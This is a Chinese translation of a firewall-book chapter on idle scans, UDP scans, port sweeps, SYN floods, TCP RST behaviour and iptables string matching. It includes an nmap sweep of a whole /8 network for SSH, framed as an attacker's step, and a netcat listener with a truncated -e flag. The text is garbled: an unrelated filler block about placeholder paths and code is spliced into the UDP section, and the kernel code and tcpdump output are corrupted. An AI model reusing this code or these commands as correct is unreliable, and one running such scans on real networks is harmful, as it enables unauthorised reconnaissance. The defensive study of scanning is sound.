闲置扫描利用了这样一个事实：IP 协议栈在发送每个数据包时，都会将 `IP ID` 值增加 1。扫描将这一事实与 TCP 协议栈的要求相结合：即针对开放端口的 `SYN` 包响应 `SYN/ACK`，针对关闭端口的 `SYN` 包响应 `RST/ACK`。此外，所有 TCP 协议栈都被要求忽略未经请求的 `RST/ACK` 包。综合这些事实，扫描器可以在维持与僵尸主机 TCP 会话的同时，观察僵尸主机在会话期间 `IP ID` 值的增长情况，而此时扫描器向目标系统发送伪造的、源地址为僵尸主机 IP 的 `SYN` 包。结果，扫描器能够监控来自僵尸系统数据包 IP 头中的 `IP ID` 值，并根据此信息推断目标端口是开放还是关闭。

当扫描器向目标的*开放端口*发送一个源 IP 伪造为僵尸机 IP 的 `SYN` 包时（见图 3-6），目标会向僵尸系统响应一个 `SYN/ACK`。由于僵尸机收到的 `SYN` 包实际上是未经请求的（由扫描器伪造），它会向目标系统响应一个 `RST`，从而使 `IP ID` 计数器增加 1。如果扫描器向目标的*关闭端口*发送 `SYN` 包（同样伪造源 IP），目标会向僵尸机响应一个 `RST/ACK`，而僵尸机会忽略这个未经请求的包。在这种情况下，由于僵尸机没有发送任何数据包，`IP ID` 值不会增加。

通过监控 `IP ID` 值的增长方式（目标端口开放时增加 1，关闭时不增加），扫描器可以推断目标系统上哪些端口是开放的。然而，决定闲置扫描是否成功的最重要因素是僵尸机上可用服务的利用率。一个热门的 Web 服务器不适合作为僵尸机。在这种情况下，由于每个 TCP 连接都会增加 `IP ID` 值，该值在很大程度上会在扫描器的控制之外增长。这使得将 `IP ID` 值的变化映射到被扫描端口变得不切实际。

被闲置扫描的目标系统无法知道扫描的真实来源，因为它们看到的全部是来自僵尸主机的伪造 `SYN` 包。目标上的 iptables 日志看起来就像普通的 `SYN` 扫描（参见第 56 页的“[TCP SYN 或半开放扫描](https://example.com)”）。

## 注意

如果僵尸主机上运行着默认丢弃（default-drop）的防火墙，闲置扫描生效的唯一方法是扫描器将源端口硬编码为僵尸机上一个开放的 TCP 端口。原因是，被过滤的 `SYN/ACK` 将无法被僵尸机的 TCP 协议栈看到，因此它永远不会发送 `RST`，`IP ID` 也就不会增加。在某些情况下，如果部署了防火墙，低负载服务可能是唯一可用的端口。

## UDP 扫描

由于 UDP 没有实现建立连接的控制消息，因此对 UDP 服务的扫描非常简单，其实现方式是通过向 UDP 端口发送数据，然后观察在合理时间内是否有任何返回。由于发送到没有服务器监听且未被过滤的 UDP 端口的数据包会触发 ICMP 端口不可达（Port Unreachable）消息，因此扫描器很容易判断 UDP 端口是否关闭。

相反，发送到开放端口的 UDP 包即使未被过滤，也可能没有任何回应。这是因为 UDP 服务器没有义务必须响应数据包；是否响应完全取决于绑定到该端口的特定服务器应用程序。

如果防火墙拦截了扫描器发送到特定端口的 UDP 包，扫描器收不到任何响应，这在扫描器看来就像是绑定到该端口的 UDP 应用程序没有任何话要说一样。（这就是为什么被过滤的端口被 Nmap 报告为`open|filtered`。）例如，下面是对 `iptablesfw` 系统的 Nmap UDP 扫描以及几行 iptables 日志条目。你可以看到所有被扫描的 UDP 端口都处于 `open|filtered` 状态（粗体显示），随后是扫描输出的一个 UDP iptables 日志样本：


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

## 端口扫描范围 (Port Sweeps)

端口扫描范围（Port Sweep）是一种类似于端口扫描的侦察方法。然而，它不是枚举单个主机上的可访问服务，而是检查多个主机上单个服务的可用性。从安全角度来看，端口扫描范围可能比端口扫描更令人担忧，因为它们通常意味着系统已被蠕虫病毒入侵，并且正在寻找其他感染目标。如果网络中运行着大量 Windows 系统（它们通常是蠕虫活动的主要目标），那么检测端口扫描范围比检测端口扫描更为重要。然而，面对像 SQL Slammer 这种在几分钟内感染全球数万台系统的蠕虫，即使是早期检测可能也无济于事；当蠕虫被检测到时，很可能已经太晚无法采取措施了。当像 Slammer 这样快速传播的蠕虫最初被释放时，编写并分发新的 Snort 签名所需的时间远长于蠕虫感染几乎所有脆弱系统的时间。一旦有了可靠的签名，入侵防御系统（IPS）可能能够拦截蠕虫，但限制蠕虫的最佳方法是修补它所利用的漏洞。尽管如此，检测来自内部网络的端口扫描范围仍然是识别被感染系统的有效方法（幸运的是，并非所有蠕虫都像 Slammer 那样传播迅速）。

Nmap 可以轻松地利用其所有扫描能力，在整个网络中扫描特定服务。例如，如果攻击者拥有针对 SSH 守护进程的漏洞利用程序，Nmap 可以如下方式在整个`10.0.0.0/8`子网中查找该服务的所有可访问实例：

```
[ext_scanner]# nmap -sP -p 22 -sS 10.0.0.0/8
```

## TCP 序列号预测攻击

TCP 没有内置强身份验证或加密层；这项任务交给了应用层。因此，TCP 会话容易受到各种旨在向 TCP 流注入数据、劫持会话或强制会话关闭的攻击。

为了向已建立的 TCP 连接中注入数据，攻击者必须知道（或猜测）用于跟踪数据传输的当前序列号，而这取决于连接双方在传输任何数据之前选择的初始序列号。一些 TCP 协议栈在确保初始序列号随机选择方面做了大量工作（OpenBSD TCP 协议栈就是一个很好的例子），而且 TCP 头中序列号字段的大小（32 位）在攻击者无法嗅探 TCP 连接时也提供了一定的防猜测能力。然而，在……背景下，猜测 TCP 序列号的一个相当著名的例子是

Paul W. Watson 在 "Slipping in the Window: TCP Reset Attacks" 中报道了利用 RST 数据包强制断开 Cisco 路由器中无聊的 BGP 对等会话的方法（更多信息请参阅 `http://osvdb.org/reference/slippinginthewindow_v1.0.doc`）。

每当网络网关运行 iptables 时，阻碍内部网络用户对外部 TCP 会话使用序列号猜测攻击的最佳方法之一，就是构建能够丢弃源自内部网络的欺骗数据包的规则。也就是说，为了使此类攻击成功，攻击者必须将欺骗数据包发送至 iptables 之后，并进入来自外部 TCP 客户端或服务器 IP 地址的连接。使用 iptables，可以通过丢弃任何到达内部接口且源地址位于内部网络之外的数据包，轻松阻止欺骗数据包被转发。（这通过第 1 章讨论的默认 iptables 策略实现。）

## SYN 洪水攻击 (SYN Floods)

SYN 洪水攻击通过伪造源地址产生海量的 TCP SYN 数据包，并将其指向特定的 TCP 服务器。其目的是通过强制目标 TCP 协议栈将其所有资源用于发送 SYN/ACK 数据包并等待永远不会到来的 ACK 数据包，从而使服务器崩溃。SYN 洪水攻击纯粹是一种拒绝服务（DoS）攻击。iptables 通过`limit`匹配提供了一定的 SYN 洪水保护：

```
[iptablesfw]# iptables -I FORWARD 1 -p tcp --syn -m limit --limit 1/s -j ACCEPT
```

- [23] TCP 和 UDP 标头中的源端口和目的端口字段为 16 位宽，因此共有 65,536 (2^16) 个端口（包括可被 Nmap 扫描的 0 号端口）。

- [24] 尽管 Nmap 可以扫描 0 号端口，但操作系统不允许服务器通过`bind()`绑定到 0 号端口。

- [25] 在这种情况下，来自僵尸主机的 RST 数据包不包含 ACK 位，因为来自目标的 SYN/ACK 确实设置了 ACK 位。关于 RST 数据包在何种情况下设置 ACK 位的更多资料，请参阅第 63 页的 "RST vs. RST/ACK"。

## 传输层响应

在特定条件下，传输层可以对流量做出响应。防火墙或其他过滤设备可以基于传输层标头实现过滤操作（参见第 1 章中介绍的`iptables.sh`脚本），伪造 TCP RST 或 RST/ACK 数据包以断开 TCP 连接，或者限制传入数据包的速率（例如在给定时间段内的 TCP SYN 数据包数量）。

## 注意

我们将在第 10 章和第 11 章中看到更多主动响应措施，届时我们将展示如何在检测到应用层攻击阶段时，使用 iptables 在网络层和传输层同时做出响应。

然而，就突破系统而言，如今大多数有趣的操作都发生在应用层。将应用层漏洞利用程序传递给目标系统所涉及的传输层通信本身是良性的（毕竟攻击者希望传输层能正常工作）。响应端口扫描和端口扫描等传输层活动具有风险，因为这些扫描很容易通过伪造的源 IP 地址发送。

## TCP 响应

在 TCP 的语境下，传输层内置了一种用于终止连接的响应机制。这种能力以 TCP RST (Reset) 或 RST/ACK (Reset/Acknowledgement) 数据包的形式实现。该数据包通知接收方的 TCP 协议栈不能再发送数据，且无论当前处于何种状态，连接都将被终止。RST 标志是 TCP 标头中 6 位宽控制位字段的元素之一。每当 TCP 客户端或服务器遇到无法维持的条件时，就会使用它，连接的任何一方都可以发出 RST。

### RST vs. RST/ACK

许多防火墙和入侵检测系统（IDS）可以发送 TCP RST 数据包来切断恶意连接，但发送此类数据包的实现细节差异很大。一个经常被忽视的细节是防火墙或 IDS 发送的是纯 RST 数据包还是 RST/ACK 数据包。

根据 RFC 793，TCP 协议栈仅在三种情况下应生成 RST/ACK；在其他时间，发送的 RST 数据包不设置 ACK 位。此外，TCP 会话中看到的最后一个数据包的 ACK 标志与用于断开连接的 RST 数据包之间存在反比关系。也就是说，如果最后一个数据包包含 ACK 标志，则 RST 数据包不应包含该标志。反之，如果最后一个数据包不包含 ACK 标志，则 RST 应该包含。

例如，如果向没有服务器监听的端口（即端口处于 CLOSED 状态）发送 TCP SYN 数据包，则会向客户端发送 RST/ACK。但如果向 CLOSED 端口发送 SYN/ACK 数据包，则会向客户端发送不带 ACK 位的 RST 数据包。以下示例阐明了这两种场景：

```
① [iptablesfw]# iptables -I INPUT -p tcp --dport 5001 -j ACCEPT
① [text_scanner]# nmap -sS -sP 50.11 71.157.X.X
[iptablesfw]# tcpdump -i eth0 -nn -v port 5001
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
17:10:24.693929 IP 144.202.X.X.33739 > 71.157.X.X.5001: S
522224616:522224616(0) win 2048 cm->0 lwin 46
17:10:24.693931 IP 71.157.X.X.5001 > 144.202.X.X.33736: R OR 0:0(0) ack 102
② [text_scanner]# nmap -sP -sA -p 5001 71.157.X.X
[iptablesfw]# tcpdump -i eth0 -nn -v port 5001
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
17:11:03.985446 IP 144.202.X.X.62629 > 71.157.X.X.5001: r ack 1406759780 win 1024

17:11:03.985447 IP 71.157.X.X.5001 > 144.202.X.X.62669: R
1406759780:1406759780(0) win 0
```

在 ① 处，iptables 不再干预 TCP 端口 5001，任何客户端都被允许直接与 iptablesfw 系统上的 Linux TCP 协议栈通信。这消除了 iptables 作为一个可能扭曲结果的潜在因素。在 ② 处，对 iptablesfw 系统的 5001 端口发送标准的 Nmap SYN 扫描，下一行显示使用`tcpdump`命令观察发生的情况。在 ③ 处，本地 TCP 协议栈向客户端发送一个 RST，且该 RST 具有非零的确认值；设置 ACK 位是因为 Nmap 发送的 SYN 数据包（显示在`tcpdump`输出的上一行）不包含 ACK 位。

在 ④ 处，对 5001 端口发送另一种 Nmap 扫描：ACK 扫描。在 ⑤ 处可见本地 TCP 协议栈返回的 RST，没有确认号且 ACK 位未设置。这是因为来自 Nmap 的数据包包含确认号并设置了 ACK 位。

iptables 的`REJECT`目标实现了匹配的 TCP 数据包上的 ACK 标志与生成的 RST 之间的反比关系。这是由内核源码中`linux/net/ipv4/netfilter/ipt_REJECT.c`文件的以下代码段强制执行的（`send_reset()`函数——部分代码为了可读性而省略）：

```c
static void send_reset(struct sk_buff *oldskb, int hook)
{
    struct tcphdr *tcph;
    int needs_ack;
    ① if (tcp->ack) {
    ②    if (tcp->ack) {
            needs_ack = 0;
            tcp->seq = oth->ack_seq;
            tcp->ack_seq = 0;
    ③ }
    } else {
    ④    needs_ack = 1;
}
```

```c
tcp_ph->ack_seq = htonl(ntohl(oth->seq) + seq) + oth->syn + oth->fin
                    + oldskb->len - len    oldskb->nh.ip->ihl*4
                    (oth->doff<<2));
}
    tcp_seq = 0;
}
    tcp_ph->ack = needs_ack;
```

在 ① 处，声明了一个`needs_ack`标志，用于确定生成的 TCP RST 数据包是否包含 ACK 控制位（以及相应的非零确认值）。如果原始 TCP 数据包包含 ACK 位（见 ②——此时`tcp`指针指向原始数据包的可写副本），那么`needs_ack`标志和确认值都被设置为零 (③)。如果原始 TCP 数据包不包含 ACK 位，则在 ④ 处将`needs_ack`标志设置为 1，并且确认值从原始数据包中推导而来。最后，在 ⑤ 处，根据`needs_ack`标志的值将 ACK 标志设置为 0 或 1。

`REJECT`目标中的此逻辑是从实现 TCP 协议栈的代码中复制而来的；您可以在 Linux 内核源码的`net/ipv4/tcp_ipv4.c`文件中`tcp_v4_send_reset()`函数的第 569 行附近看到这一点。为了实际演示，我们现在来看 iptables 如何在 TCP 连接进入 ESTABLISHED 状态且客户端向服务器发送字符串 "tester" 之后，强制断开该已建立的连接。（我们将在第 10 章和第 11 章中看到更多此类针对应用层数据的传输层响应示例。）

```
[@ iptablesfw]# iptables -I INPUT 1 -p tcp --dport 5001 -j ACCEPT
[@ iptablesfw]# iptables -I INPUT 1 -p tcp --dport 5001 -m string --string
"tester" --algo bm -j REJECT --reject-with tcp-reset
[@ iptablesfw]# nc -l -p 5001 -e 
[1] 8135
[etc] scanner# echo "tester" | nc 117.251.X.X 5001
[@ iptablesfw]# tcpdump -i eth0 -n -S -v port 5001
22:33:15.826122 IP 144.202.X.54922 > 117.251.X.X.5001: S 741951920:
194539200 w 5840 MSS,sackOK tcpdump timestamp 842078832 0,nop,wscale 6
22:33:15.826161 IP 117.251.X.X.5001 > 144.202.X.54922: S 2664023278:
2642023278 ack 741951921 w 5792 maxs,sackOK,timestamp 649774503
842078832,nop,wscale 7
22:33:15.826263 IP 144.202.X.54922 > 117.251.X.X.5001: ack 1 win 92
<nop,nop,timestamp 842078832 649774503>
22:33:15.826612 IP 144.202.X.54922 > 117.251.X.X.5001: P l:8 ()? ack 1 win 92
"00 nop,timestamp 842078832 649774503"
0x00000: 4500 003b 53be 4000 1d06 0000 0d00 0000 E..S.;8..G..5..
0x00010: 0000 0000 d3b9 0000 13c9 2391 49b0 01ef 6c0f G..3...1..[
0x00020: 0000 8018 0000 b3a1 0000 0000 0000 3231 la70 ..\x..21-p
0x00030: 269f 4e67 7465 7374 6379 6574 00
&.Np@tester..
22:33:15.826665 IP 117.251.X.X.5001 > 144.202.X.54922: R
2640253279: 264023279 () win 0
```

在 ① 处，我们首先使用一条规则允许 TCP 端口 5001 上的 TCP 连接，随后使用一条规则终止包含 "tester" 字符串的连接。在 ② 处，一个 TCP 服务器绑定到 5001 端口，下一行显示通过防火墙上 5001 端口的 TCP 连接发送的字符串。在 ③ 处，调用`tcpdump`并带有`-S`参数以确保捕获所有应用层数据（部分已省略），以及使用`-X`将应用层数据以 dump 形式导出。你可以看到 TCP 三次-

三次握手始于 ❶，在 ❷ 处你可以看到，在发送 RST 报文之前的那个数据包设置了 ACK 位，并且在 ❸ 处包含字符串`tester`。最后，在 ❹ 处，生成了 RST 报文。（请注意，这里有一个**粗体**的序列号，但 ACK 控制位并未设置，因为前一个数据包已经包含了 ACK 位。）

### 入侵检测系统与 RST 生成

尽管 RFC 793 非常明确地规定了 RST 报文在何种情况下应包含确认值和相应的 ACK 控制位，但许多入侵检测系统（IDS）在生成用于切断 TCP 会话的 RST 报文时并不遵循 RFC。例如，在 Snort IDS 中，`flexresp`和`flexresp2`检测插件在响应检测到的攻击而发送任何 RST 报文时，都会同时设置 RST 和 ACK 控制位；至少有一个商业 IDS 产品（此处不点名）也是如此。相反，Snort 的`react`检测插件即使在发送的 RST 报文中包含非零确认号，也永远不会设置 ACK 控制标志。平均而言，由于 Snort 规则通常包含应用程序匹配要求，且 TCP 连接中包含数据的数据包都设置了 ACK 位，因此`react`检测插件比`flexresp`或`flexresp2`插件实施了更好的策略（至少就 RST 报文上的 ACK 标志而言）。

#### SYN Cookies


一种使 TCP 栈在 SYN 洪水攻击下表现良好的有趣方法是启用 SYN cookies。虽然被动 IDS 无法将 SYN cookies 作为对攻击的响应来实现，²⁶ 但如果在编译内核时开启了 `CONFIG_SYN_COOKIES` 支持，在 Linux 系统上可以通过 `/proc` 文件系统轻松启用 SYN cookies，只需执行以下命令：

```bash
echo 1 > /proc/sys/net/ipv4/tcp_syncookies
```

SYN cookie 概念由 Daniel Bernstein 创建（参见 http://cryp.to/syncookies.html），它提供了一种在 TCP 握手期间构建服务器序列号的方法，以便在合法客户端返回最终的 ACK 后，可以用它来重建初始序列号。这允许服务器重复使用内核资源，而这些资源在正常情况下必须在收到客户端的 SYN 报文后被预留以创建连接。由于服务器在发送 SYN/ACK 后不知道客户端是否会响应 ACK（事实上，在 SYN 洪水攻击期间，大多数 SYN 报文永远不会伴随最终的 ACK 来完成连接），使用 SYN cookies 可以提供一种有效的防御 SYN 洪水攻击的手段（尽管有些人对 SYN cookie 技术提出了批评）。

### UDP 响应

UDP 缺乏结构使得数据传输速度很快，因为 UDP 没有像 TCP 那样的数据确认机制带来的开销。但缺乏结构也意味着 UDP 没有内置机制来强制系统停止发送 UDP 报文。

然而，UDP 栈确实利用 ICMP 作为一种简单的响应机制：如果一个 UDP 报文被发送到一个没有 UDP 服务器监听的端口（且该报文未被防火墙预先拦截），通常会返回一个 ICMP 端口不可达（Port Unreachable）消息。例如，如果我们允许 UDP 报文通过 iptables 防火墙访问 5001 端口，但没有将 UDP 服务器绑定到此端口，我们会看到返回给 UDP 客户端的 ICMP 端口不可达消息，如下文**粗体**所示：

```
[iptablesfw]# iptables -I INPUT -p udp --dport 5001 -j ACCEPT
[let_scanner]# echo -n "aaas" | nc -u 71.157.X.X 5001
[iptablesfw]# tcpdump -i eth0 -l -nn -v port 5001
tcpdump: verbose output suppressed, use -v or --vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
15:12:30.119336 IP 144.202.X.X:40503 > 71.157.X.X:5001: UDP, length 4
15:12:30.119360 IP 71.157.X.X > 144.202.X.X: ICMP 71.157.X.X udp
port 5001
unreachable, length 40
```

入侵检测系统和防火墙也可以针对 UDP 流量生成 ICMP 端口不可达消息。iptables 的 `REJECT` 目标支持通过 `--reject-with icmp-port-unreachable` 命令行参数来实现此响应。例如，以下规则在 5001 端口收到 UDP 报文时会发送一个 ICMP 端口不可达消息，且（与所有由 iptables 生成的报文一样）该 ICMP 端口不可达消息是在 UDP 栈有机会看到它之前就在内核内部制造出来的。只要防火墙中部署了这条规则，无论 UDP 服务器是否绑定到 5001 端口都无关紧要。为了证明这一点，我们将在客户端发送 UDP 报文之前，在 ① 处启动一个监听 5001 端口的 UDP 服务器，并在 ② 处展示即使服务器绑定了端口，仍然发送了 ICMP 消息：

```
[iptablesfw]# iptables -I INPUT -p udp --dport 5001 -j REJECT --reject-with
icmp-port-unreachable
[iptablesfw]# nc -l -u -p 5001 &
[1] 12001
[let_scanner]# echo -n "aaas" | nc -u 71.157.X.X 5001
[iptablesfw]# tcpdump -i eth0 -l -nn -v port 5001
tcpdump: verbose output suppressed, use -v or --vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
15:28:55.949157 IP 144.202.X.31726 > 71.157.X.X:5001: UDP, length 4
15:28:55.949264 IP 71.157.X.X > 144.202.X.X: ICMP 71.157.X.X udp
port 5001
unreachable, length 40
```

## 防火墙规则与路由器 ACL

传输层响应（例如使用 RST 切断可疑的 TCP 连接，或在检测到 UDP 流量攻击后发送 ICMP 端口不可达消息）在某些情况下非常有用。然而，这些响应仅适用于单个 TCP 连接或 UDP 报文；不存在一种持久的阻断机制可以防止攻击者尝试新的攻击。

幸运的是，发送 TCP RST 或 ICMP 端口不可达消息可以与防火墙策略或路由器 ACL 中动态创建的阻断规则相结合，针对攻击者的 IP 地址和受攻击的服务（因此，在阻断规则中同时使用了网络层和传输层的标准）。例如，如果检测到来自 IP 地址 144.202.X.X 对 Web 服务器的攻击，以下 iptables 规则将限制该 IP 地址通过 `FORWARD` 链与 Web 服务器通信的能力：

```
[iptablesfw]# IPTABLES -I FORWARD 1 -s 144.202.X.X -p tcp --dport 80 -j DROP
```

然而，一旦针对攻击者实例化了阻断规则，该规则应由一段独立的代码进行管理，以便在可配置的时间后将其删除。第 10 章和第 11 章将更详细地讨论 iptables 的响应选项和配置。

> [26] 部署 SYN cookies 要求本地 TCP 栈支持 SYN cookies，或者有一个单独的内联设备可以通过支持该功能的栈来代理 TCP 连接。

# 第 4 章 应用层攻击与防御

应用层——OSI 参考模型中的第七层——是下层协议构建的最终目标。互联网的爆炸式增长得益于下层协议，但运行在这些层之上的应用程序才是点燃火种的燃料。成千上万个启用互联网功能的应用程序旨在使复杂任务变得简单，并为从消费者到政府再到跨国公司的所有人解决问题。所有这些应用程序的一个普遍关注点是安全性，而到目前为止，从 Bugtraq 等来源发布漏洞公告的频率来看，现状并不太理想。

说到入侵系统，应用层是绝大多数行动发生的地方。高价值目标（如在线银行接口和敏感医疗信息）存在于应用层（或可通过应用层访问），而且当今的威胁环境显示出攻击者为了金钱利益而入侵系统的趋势。在此过程中，个人的隐私被抛在脑后。如果在应用程序生命周期的所有阶段（设计、开发、部署和维护）都给予安全需求更高的优先级，我们所有人都会受益。

## 使用 iptables 进行应用层字符串匹配

对于任何 IDS 来说，最重要的功能之一就是能够在应用层数据中搜索恶意字节的特征序列。然而，由于应用程序的结构通常比网络层或传输层协议的定义要宽松得多，因此入侵检测系统在检查应用层数据时必须具备灵活性。

例如，在检查应用层通信时，如果 IDS 假设某些字节序列是不变的（因此可以被忽略），那么应用层协议的变更可能会使这一假设失效，导致 IDS 错过以非预期方式交付的攻击。某种应用层协议特定实现中的漏洞，可能会通过操纵 IDS 跳过的协议部分而被利用。

因此，我们需要一种灵活的机制来检查应用层数据。在网络流量的整个应用层负载中执行字符串匹配的能力是一个良好的第一步，这由 iptables 的 `string` 匹配扩展提供。

## 注意

这就是为什么我在第 14 页的“内核配置”中强调要启用字符串匹配支持的原因。字符串匹配还将在以下内容中被大量利用：

第 9 章、第 10 章和第 11 章，当我们讨论 fwsnort 时。

iptables 字符串匹配扩展允许使用快速的 Boyer-Moore 字符串搜索算法（参见 http://www.cs.utexas.edu/users/moore/best-ideas/string-searching）在数据包负载数据中搜索匹配的字符串。由于该算法能够快速匹配负载数据中的字符串，因此常被入侵检测系统（IDS）采用，包括冠军开源 IDS Snort (http://www.snort.org)。

## 注意

字符串匹配自 2.4 内核起就已在 iptables 中可用，但由于内核内存中存储数据包数据结构的方式发生了架构变化（`sk_buff` 结构被允许跨越非连续内存），导致 2.6.0 至 2.6.13.5 版本的内核中字符串匹配功能失效。字符串匹配扩展在 2.6.14 内核中被重写，并从此被包含在内核中。

## 观察字符串匹配扩展的实际运行

为了测试 iptables 的字符串匹配功能，我们构建一个简单的 iptables 规则，使用字符串匹配扩展来验证其是否按预期工作。以下规则使用 iptables 的 log 目标，当字符串 "tester" 被发送到监听 TCP 端口 5001 的 Netcat 服务器时，生成一条 syslog 消息。（我们需要 ACCEPT 规则，以便第 1 章中的默认 iptables 策略允许来自外部源建立 TCP 连接。）

```
[iptablesfw]# iptables -I INPUT 1 -p tcp --dport 5001 -m string --string "tester" ❶ --algo bm -m state --state ESTABLISHED -j LOG --log-prefix "tester"
[iptablesfw]# iptables -I INPUT 2 -p tcp --dport 5001 -j ACCEPT
```

请注意上方 ❶ 处 iptables 的 `--algo bm` 命令行参数。字符串匹配扩展构建在 Linux 内核的文本搜索基础设施之上（位于内核源码的 `linux/lib` 目录中）。它支持几种不同的算法，包括 Boyer-Moore 字符串搜索算法（即上述的 `bm`）和 Knuth-Morris-Pratt 字符串搜索算法 (`kmp`)。[27]

❷ 处的 `-m state --state ESTABLISHED` 命令行参数将字符串匹配操作限制在已建立的 TCP 连接的数据包中，这意味着攻击者无法通过来自任意源地址的伪造数据包触发 iptables 规则匹配——必须建立双向连接。

我们将使用 Netcat 启动一个在本地 TCP 端口 5001 监听的 TCP 服务器，然后再次在 `ext_scanner` 系统上将其作为客户端，向该服务器发送字符串 "tester"。

```
[iptablesfw]$ nc -l -p 5001
[ext_scanner]$ echo "tester" | nc 71.157.X.X 5001
```

现在我们将检查系统日志文件，寻找字符串匹配规则生成相应 syslog 消息的证据：

```
[iptablesfw]# tail /var/log/messages | grep tester
Jul 11 04:19:14 iptablesfw kernel: tester IN=eth0 OUT= MAC=00:13:d3:38:e4:00:30:48:0:40:e3:37:08:00 SRC=144.2.X.X DST=71.157.X.X LEN=59 TOS=0x00 PREC=0x00 TTL=64 ID= 41843 PF PROTO=TCP SPT=55363 DPT=5001 WINDOW=0 RES=0x00 ACK PSH URG=0
```

注意日志消息中的日志前缀，我们可以确认相关的分组是从 `ext_scanner` 系统发送到我们监听 TCP 端口 5001 的 Netcat 服务器的。

## 注意

我们可以通过使用 telnet（在行模式下运行）作为客户端而不是 Netcat 来达到上述相同的结果，从而使整个字符串 "tester" 包含在单个数据包中。这虽然可行，但 telnet 有一些严重的限制：它无法与 UDP 服务器交互，而且很难使用 telnet 生成任意的不可打印字符。

## 匹配不可打印的应用层数据

在作为客户端运行时，Netcat 与 UDP 服务器交互就像与 TCP 套接字监听的服务器一样简单。结合一点 Perl 脚本，Netcat 可以通过网络发送任意字节，包括那些无法表示为可打印 ASCII 字符的字节。这一特性非常重要，因为许多漏洞利用程序使用了不可打印的字节，而这些字节无法用可打印 ASCII 字符表示；为了模拟这些在网络上传输的攻击，我们需要能够在客户端生成相同的字节。

例如，假设你需要向监听端口 5002 的 UDP 服务器发送一个代表日元符号的 10 个字符字符串，并且你希望 iptables 匹配这些字符。根据 ISO 8859-7 字符集（在命令提示符下输入 `man iso_8859-7`），十六进制代码 `A7` 代表日元符号，因此下面的命令可以实现该目的。

我们首先执行 iptables，使用 `--hex-string` 参数，并在 `|` 符号之间指定十六进制字节，如下所示：

```
[iptablesfw]# iptables -I INPUT 1 -p udp --dport 5002 -m string --hex-string "|a7a7a7a7a7a7a7a7a7a7" --algo bm -j LOG --log-prefix "YEN "
```

接下来，我们在 5002 端口启动一个 UDP 服务器。[28] 最后，我们使用 Perl 命令生成一系列 10 个十六进制 A7 字节，并通过 Netcat 将该输出通过网络发送到 UDP 服务器：

```
[iptablesfw@s] nc -u -l -p 5002
[ext_scanner]$ perl -e 'print "\xa7"x10' | nc -u 71.157.X.X 5002
```

果然，iptables 匹配到了流量，你可以从 syslog 日志消息中看到（注意**粗体**显示的 YEN 日志前缀）：

```
[iptablesfw@s] tail /var/log/messages | grep YEN
Jul 11 04:15:14 iptablesfw kernel: YEN IN=eth0 OUT= MAC=00:13:b:d3:38:b6:e4:00:00:30:48: 80:48:37:08:00 SRC=144.202.X.X DST=157.X.X.X LEN=38 TOS=0x00 PREC=0x00 TTL=64 ID=37738 DP PROTO=UDP SPT=47731 DPT=5002 LEN=18
```

[27] 对于大多数字符串匹配需求，Boyer-Moore 字符串搜索算法的性能通常优于 Knuth-Morris-Pratt 算法。BM 的最佳情况性能为 O(m/n)，而 KMP 的最佳情况性能为 O(n)，其中 n 是被搜索文本的长度，m 是搜索字符串的长度。在 http://people.netfilter.org/pablo/textsearch 可以看到一些优秀的性能图表。

[28] 从技术上讲，这里不需要启动 UDP 服务器，因为数据是通过 UDP 套接字发送的，无需预先建立连接，因此无论用户空间是否有服务器在监听，iptables 都会看到包含 YEN 十六进制代码的 UDP 数据包。另请注意，为了生成日志消息，我们不需要在策略中添加 ACCEPT 规则（尽管数据由于我们的默认 DROP 策略而无法到达用户空间的服务器）。如果你想查看 Netcat 在连接的服务器端如何表示该数据，你需要为 UDP 端口 5002 添加一条 ACCEPT 规则。

## 应用层攻击定义

我们将应用层攻击定义为：为了实现应用所有者或管理员未经授权的目的，而试图破坏应用程序、应用程序用户或由应用程序管理的数据的行为。应用层攻击通常不依赖于利用底层技术，尽管有时会使用此类技术（如 IP 欺骗或 TCP 会话拼接）来改变应用层攻击传递到目标的方式。

应用层攻击之所以经常发生，是因为程序员在严格的期限压力下发布代码，导致没有足够的时间来根除导致安全漏洞的 Bug。此外，许多程序员没有考虑到使用某些语言结构可能以非显而易见的方式使应用程序暴露在攻击之下的影响。最后，许多应用程序的配置非常复杂，经验不足的用户在部署时启用了风险选项，从而降低了安全性。

应用层攻击分为以下三类：

### 针对编程 Bug 的漏洞利用

应用程序开发是一项复杂的工程，编程错误不可避免。在某些情况下，这些 Bug 可能会导致可以通过网络远程访问的严重漏洞。典型的例子包括由于使用不安全的 C 库函数而导致的缓冲区溢出漏洞、以 Web 为中心的漏洞（例如 Web 服务器将未经清理的查询传递给后端数据库，从而导致 SQL 注入攻击），以及发布用户过滤内容的站点（从而导致跨站脚本攻击或 XSS 攻击）。

### 针对信任关系的漏洞利用

某些攻击利用的是信任关系，而非攻击应用程序的编程 Bug。就与应用程序本身的交互而言，此类攻击看起来完全合法，但它们针对的是人们在应用使用过程中所建立的信任。网络钓鱼攻击就是一个很好的例子；目标不是 Web 应用程序或邮件服务器，而是解读钓鱼网站或电子邮件消息的人。

### 资源耗尽

与网络层或传输层 DoS 攻击一样，应用程序有时也会在海量数据输入的压力下崩溃。此类攻击会导致应用程序对所有人而言都无法使用。

## 滥用应用层


网络应用程序内部日益增长的复杂性使得利用应用层漏洞变得更加容易。我们在第 2 章和第 3 章中看到了一些滥用网络层和传输层的创意方法，但与如今针对应用程序采取的一些技术相比，这些方法显得相当平淡。

虽然常见的网络层和传输层协议的实现通常符合 RFC 定义的指南，但并没有一个标准来控制特定的 CGI 应用程序如何通过 Web 服务器处理用户输入，或者应用程序是否是用没有自动边界检查或内存管理的编程语言（如 C 语言）编写的。有时，全新的攻击技术被发现并发布给安全社区——一个很好的例子是 HTTP 跨站 Cookie 攻击（Cross-Site Cooking）的概念，它涉及跨域 Web Cookie 的错误处理（参见 http://en.wikipedia.org/wiki/cross_site_cooking）。

